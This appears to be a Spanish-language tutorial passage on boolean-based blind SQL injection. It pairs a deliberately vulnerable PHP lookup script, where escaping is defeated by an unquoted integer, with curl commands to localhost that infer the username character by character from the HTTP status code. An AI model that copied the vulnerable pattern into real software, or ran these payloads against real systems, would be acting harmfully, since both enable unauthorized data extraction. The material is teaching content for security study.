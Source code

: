### Inyecciónes SQL blind (a ciegas)

* Script en php que no muestra el output y tiene un **condicional** que mira si **existe** el **usuario**:

```php
<?php
    $server = "localhost";
    $username = "red";
    $password = "love";
    $database = "db";
	
	// Conectar con la base de datos
	$con = new mysqli($server, $username, $password, $database);
	// Sanitizacion escapar caracteres especiales
	$id = mysqli_real_escape_string($con, $_GET['id']);

	$data = mysqli_query($con, "SELECT username FROM users WHERE id = $id");
	
	$response = mysqli_fetch_array($data);
	
	if (! isset($response['username'])){
		http_response_code(404);
	}
?>
```

***

#### Inyección SQL basada en booleanos

* Ver en las **cabeceras** de la **respuesta** si el usuario existe depediendo del codigo de **estado** si es **exitoso** o no:

```shell
> curl -s -X GET "http://localhost/search_users.php?id=1" -I
HTTP/1.1 200 OK
Server: Apache/2.4.56 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8

> curl -s -X GET "http://localhost/search_users.php?id=9" -I
HTTP/1.1 404 Not Found
Server: Apache/2.4.56 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

* Ver si el primer **caracter** del usuario es igual al valor de **a** en **hexadecimal**:

```shell
> curl -s -I -X GET "http://localhost/search_users.php" -G --data-urlencode "id=-1 OR (SELECT(SELECT ASCII(SUBSTRING(username,1,1)) FROM users WHERE id = 1)=97)"
HTTP/1.1 200 OK
Server: Apache/2.4.56 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
> curl -s -I -X GET "http://localhost/search_users.php" -G --data-urlencode "id=-1 OR (SELECT(SELECT ASCII(SUBSTRING(username,1,1)) FROM users WHERE id = 1)=98)"
HTTP/1.1 404 Not Found
Server: Apache/2.4.56 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
